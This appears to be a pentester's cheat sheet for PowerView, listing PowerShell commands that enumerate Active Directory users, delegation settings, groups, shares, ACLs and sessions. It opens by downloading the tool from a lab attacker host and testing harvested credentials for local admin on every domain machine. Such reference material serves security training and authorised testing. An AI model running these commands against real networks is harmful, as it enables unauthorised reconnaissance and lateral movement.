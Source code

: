 https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

>PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows net commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.
>
>It also implements various useful metafunctions, including some custom-written user-hunting functions which will identify where on the network specific users are logged into. It can also check which machines on the domain the current user has local administrator access on. Several functions for the enumeration and abuse of domain trusts also exist. See function descriptions for appropriate usage and available options. For detailed output of underlying functionality, pass the -Verbose or -Debug flags.
>
For functions that enumerate multiple machines, pass the -Verbose flag to get a progress status as each host is enumerated. Most of the "meta" functions accept an array of hosts from the pipeline.

```powershell
Invoke-WebRequest -Uri http://10.10.14.8:8000/PowerView.ps1 -OutFile PowerView.ps1

. ./PowerView.ps1
Import-Module .\PowerView.ps1

menu

//  Create Credential Object
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("fakedomain\user", $passwd)

// Gather List of all workstations on domain and store in variable
$comps = Get-NetComputer -Domain msp.local -Credential $creds

// Attempt to issue a command on each machine - any results indicate local admin on that machine
Invoke-Command -ScriptBlock{hostname} -Computer ($comps.dnshostName) -Credential $creds -ErrorAction SilentlyContinue
```

Assuming that latest PowerView script (master and dev are the same) has been loaded in memory.

### Domain Enumeration
Get basic information of the domain
```powershell
Get-Domain
```

Get domain SID
```powershell
Get-DomainSID
```

Get domain policies
```powershell
Get-DomainPolicy [-Domain <target>]
```

Get domain Kerberos policy
```powershell
(Get-DomainPolicy).KerberosPolicy
```

Get list of DCs
```powershell
Get-DomainController [-Domain <target>]
```

Get DC IP
```powershell
nslookup <target_dc>
```

### Forest Enumeration
Get current forest
```powershell
Get-Forest
```

Get a list of domains
```powershell
Get-ForestDomain [-Forest <target>]
```

#### User Enumeration
Get a list of users
```powershell
Get-NetUser [-Domain <target>] [user_name]
```

```powershell
net user /domain
```

Get a count of users
```powershell
(Get-NetUser).count
```

Get a list of users with some specific properties
```powershell
Get-NetUser [-Properties <>] 
```

Get a list of users with their logon counts, bad password attempts where attempts are greater than 0
```powershell
Get-NetUser | select cn, logoncounts, badpwdcount | ? {$_.badpwdcount -gt 0}
```

Finding users with SPN
```powershell
Get-NetUser -SPN
```

Finding users who are AllowedToDelegateTo
```powershell
Get-NetUser -TrustedToAuth
```

Finding users who can be delegated
```powershell
Get-NetUser -AllowDelegation
```
### Computer Enumeration
Get a list of computers
```powershell
Get-NetComputer [-Domain <target>] [-OperatingSystem "*2016*"] [-Properties <>]
```

Get a list of computers with Unconstrained delegation
```powershell
Get-NetComputer -Unconstrained
```

Finding users who are AllowedToDelegateTo
```powershell
Get-NetComputer -TrustedToAuth
```
### Group Enumeration
Get a list of groups in a domain
```powershell
net group /domain
```

Get a list of groups in a domain
```powershell
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']
```

Get group membership
```powershell
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]
```
### Share Enumeration
List shares user have access to
```powershell
Invoke-ShareFinder -CheckShareAccess -ErrorAction SilentlyContinue [-ComputerDomain <target_domain>]
```
### ACL Enumeration
Get resolved ACEs, optionally for a specific user/group and domain
```powershell
Get-ObjectAcl [-Identity <user_name>] [-Domain <target_domain>] -ResolveGUIDs
```

Get interesting resolved ACLs
```powershell
Invoke-ACLScanner [-Domain <target_domain>] -ResolveGUIDS
```

Get interesting resolved ACLs owned by specific object (ex. noobsec)
```powershell
Invoke-ACLScanner -ResolveGUIDS \| ?{$_.IdentityReference -match 'noobsec'}
```
### Session Enumeration
Finding sessions on a computer
```powershell
Get-NetSession [-Computer <comp_name>]
```

Get who is logged on locally where
```powershell
Get-LoggedOnLocal [-ComputerName <comp_name>]
```
### User Hunting
Get list of machines where current user has local admin access
```powershell
Find-LocalAdminAccess [-Domain <target_domain>]
```

Find machines where members of specific groups have sessions. Default: Domain Admins
```powershell
Invoke-UserHunter [-GroupName <group_name>]
```

Find machines where current user has local admin access AND specific group sessions are present
```powershell
Invoke-UserHunter -CheckAccess
```
